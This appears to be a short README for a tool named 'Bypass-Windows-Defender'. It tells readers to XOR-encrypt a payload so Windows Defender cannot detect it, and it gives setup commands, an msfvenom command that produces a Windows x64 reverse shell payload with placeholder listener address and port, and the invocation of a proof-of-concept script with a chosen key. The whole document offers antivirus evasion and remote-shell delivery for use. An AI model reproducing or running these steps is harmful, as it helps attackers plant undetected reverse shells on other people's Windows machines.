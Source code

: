 # BWD
Bypass-Windows-Defender

Bypass Windows Defender by encrypt the payload and execute it with the key at the same time. 

To realise this attack we will xor our payload with a key so WD can't read it and detect it.

```
sudo apt update
sudo apt upgrade
sudo apt install wingw-w64
```

Creation of the payload with msfvenom. For the exemple I take a revershell : 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=@YOUR_IP LPORT=@PORT_LISTENER -f raw >	payload.bin
```

You can now execute poc.py with the key you want to xor the payload :
```
chmod +x poc.py
sudo python3 poc.py secret_key
```

